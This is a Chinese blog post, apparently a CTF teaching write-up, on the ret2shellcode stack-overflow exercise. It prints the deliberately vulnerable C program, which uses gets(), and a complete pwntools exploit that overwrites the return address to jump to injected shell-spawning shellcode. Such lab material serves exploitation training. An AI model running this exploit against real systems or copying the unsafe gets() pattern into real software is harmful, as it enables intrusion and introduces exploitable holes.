 ```yaml
---
layout:     post
title:      ret2shellcode
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




本文讲解栈溢出

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



程序下载：





第八行，gets函数存在溢出，ret2shellcode程序没有system，不能直接像ret2text一样利用程序中已有的system('/bin/sh')代码

![image-20180911162609611](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-084850.png)



但是相比ret2text多了一个strncpy函数，这个函数的作用是把s中的内容拷贝到buf2中

第一个参数为buf2为目的地址，&s为源地址，0x64u为buf2长度

```c
char *strncpy(char *dest, const char *src, size_t n);

strncpy(buf2, &s, 0x64u);
```

所以这里就出现了一个思路，自己构造shellcode，通过strncpy拷贝到buf2中，然后main函数的返回地址覆盖为buf2的地址

```python
buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh()) #pwntools自带的模块

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))
#shellcode.ljust(112, 'a'）左填充
```



> buf2属于全局未初始化变量，在程序编译运行时候，在bss段中，地址固定不变
>
> buf属于局部未初始化变量，每一次程序加载运行在内存中的地址都是变化的

```c
ret2shellcode.c

#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```



exp：

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2shellcode')

buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh())

sh.sendline(shellcode.ljust(112, 'a') + p32(buf2_addr))

sh.interactive()
```




